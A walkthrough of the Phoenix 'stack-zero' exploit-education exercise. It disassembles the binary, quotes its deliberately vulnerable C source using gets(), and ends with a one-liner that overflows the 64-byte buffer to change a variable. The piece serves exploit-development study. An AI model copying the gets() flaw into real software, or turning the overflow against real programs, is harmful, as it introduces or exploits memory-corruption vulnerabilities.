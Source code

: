 # PHOENIX - Stack 0

Lets list our files using ```ls -la```,

```
user@phoenix-amd64:~$ ls -la
total 28
drwxr-xr-x 2 user user 4096 Jun  6 02:49 .
drwxr-xr-x 3 root root 4096 Jan 13  2019 ..
-rw-r--r-- 1 user user  220 Jan 13  2019 .bash_logout
-rw-r--r-- 1 user user 3526 Jan 13  2019 .bashrc
-rw-r--r-- 1 user user  675 Jan 13  2019 .profile
-rwxr-xr-x 1 user user 5824 Jun  6 02:49 stack-zero
```

Lets try running the binary,

```
user@phoenix-amd64:~$ ./stack-zero
Welcome to phoenix/stack-zero, brought to you by https://exploit.education
monish
Uh oh, 'changeme' has not yet been changed. Would you like to try again?
```

It is expecting to change some ```changeme``` in it

Lets analyse this binary using ```file``` command,

```
user@phoenix-amd64:~$ file stack-zero
stack-zero: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /opt/phoenix/x86_64-linux-musl/lib/ld-musl-x86_64.so.1, not stripped
```

It is a ```not stripped``` binary

Its time for our debugger to analyse it,

Viewing functions inside in it

```
pwndbg> info functions
All defined functions:

Non-debugging symbols:
0x0000000000400408  _init
0x0000000000400430  gets@plt
0x0000000000400440  puts@plt
0x0000000000400450  exit@plt
0x0000000000400460  __libc_start_main@plt
0x0000000000400470  _start
0x0000000000400486  _start_c
0x00000000004004b0  deregister_tm_clones
0x00000000004004e0  register_tm_clones
0x0000000000400520  __do_global_dtors_aux
0x00000000004005b0  frame_dummy
0x00000000004005dd  main
0x0000000000400630  __do_global_ctors_aux
0x0000000000400672  _fini
```

Lets view the ```main()```,

```
pwndbg> disassemble main
Dump of assembler code for function main:
   0x00000000004005dd <+0>:	  push   rbp
   0x00000000004005de <+1>:	  mov    rbp,rsp
   0x00000000004005e1 <+4>:	  sub    rsp,0x60
   0x00000000004005e5 <+8>:	  mov    DWORD PTR [rbp-0x54],edi
   0x00000000004005e8 <+11>:	mov    QWORD PTR [rbp-0x60],rsi
   0x00000000004005ec <+15>:	mov    edi,0x400680
   0x00000000004005f1 <+20>:	call   0x400440 <puts@plt>
   0x00000000004005f6 <+25>:	mov    DWORD PTR [rbp-0x10],0x0
   0x00000000004005fd <+32>:	lea    rax,[rbp-0x50]
   0x0000000000400601 <+36>:	mov    rdi,rax
   0x0000000000400604 <+39>:	call   0x400430 <gets@plt>
   0x0000000000400609 <+44>:	mov    eax,DWORD PTR [rbp-0x10]
   0x000000000040060c <+47>:	test   eax,eax
   0x000000000040060e <+49>:	je     0x40061c <main+63>
   0x0000000000400610 <+51>:	mov    edi,0x4006d0
   0x0000000000400615 <+56>:	call   0x400440 <puts@plt>
   0x000000000040061a <+61>:	jmp    0x400626 <main+73>
   0x000000000040061c <+63>:	mov    edi,0x400708
   0x0000000000400621 <+68>:	call   0x400440 <puts@plt>
   0x0000000000400626 <+73>:	mov    edi,0x0
   0x000000000040062b <+78>:	call   0x400450 <exit@plt>
End of assembler dump.
```

Lets view the source code of this binary for better understanding,

[Source](https://exploit.education/phoenix/stack-zero/)

```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

char *gets(char *);

int main(int argc, char **argv) {
  struct {
    char buffer[64];
    volatile int changeme;
  } locals;

  printf("%s\n", BANNER);

  locals.changeme = 0;
  gets(locals.buffer);

  if (locals.changeme != 0) {
    puts("Well done, the 'changeme' variable has been changed!");
  } else {
    puts(
        "Uh oh, 'changeme' has not yet been changed. Would you like to try "
        "again?");
  }

  exit(0);
}
```

Here is the important part,

```
char buffer[64];
volatile int changeme;
```

```buffer``` gets 64 bytes of data using ```gets(locals.buffer)```

```volatile int changeme``` is handled by ```locals.changeme = 0```

And the main condition to pass the program is,

```
if (locals.changeme != 0) {
    puts("Well done, the 'changeme' variable has been changed!");
  } else {
    puts(
        "Uh oh, 'changeme' has not yet been changed. Would you like to try "
        "again?");
  }
```

If we manage to change the ```changeme``` variable to a value other than 0,we can complete this challenge

Lets check the security mitigations of this binary using ```checksec```,

```
ra@moni~/E/p/stack0> checksec stack-zero
[*] '/home/ra/ExpDevPractice/phoenix/stack0/stack-zero'
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
    RPATH:    '/opt/phoenix/x86_64-linux-musl/lib'
```

It seems like this binary has no security mitigations

We could overwrite the ```changeme``` variable from ```buffer``` by overflowing it

Since ```buffer``` uses ```gets()``` for input,we can use this for overflow

If we check it in debugger,


```
   0x00000000004005f1 <+20>:	call   0x400440 <puts@plt>
   0x00000000004005f6 <+25>:	mov    DWORD PTR [rbp-0x10],0x0
   0x00000000004005fd <+32>:	lea    rax,[rbp-0x50]
   0x0000000000400601 <+36>:	mov    rdi,rax
   0x0000000000400604 <+39>:	call   0x400430 <gets@plt>
```

Here ```mov    DWORD PTR [rbp-0x10],0x0``` is used for ```locals.changeme = 0```

And ```lea    rax,[rbp-0x50]``` is for allocating buffer space for ```buffer```

Calculating the distance of these memory,

```
>>> int(0x50)
80
>>> int(0x10)
16
>>> print(80-16)
64
```

If we could pass 64 bytes of ```buffer``` and 1 extra byte to ```buffer``` it would change the ```changeme``` variable

Lets try it,

```
user@phoenix-amd64:~$ python -c "print('A'*64)"
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
user@phoenix-amd64:~$ python -c "print('A'*64)" | ./stack-zero
Welcome to phoenix/stack-zero, brought to you by https://exploit.education
Uh oh, 'changeme' has not yet been changed. Would you like to try again?
user@phoenix-amd64:~$ python -c "print('A'*65)"
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
user@phoenix-amd64:~$ python -c "print('A'*65)" | ./stack-zero
Welcome to phoenix/stack-zero, brought to you by https://exploit.education
Well done, the 'changeme' variable has been changed!
```

Done! 



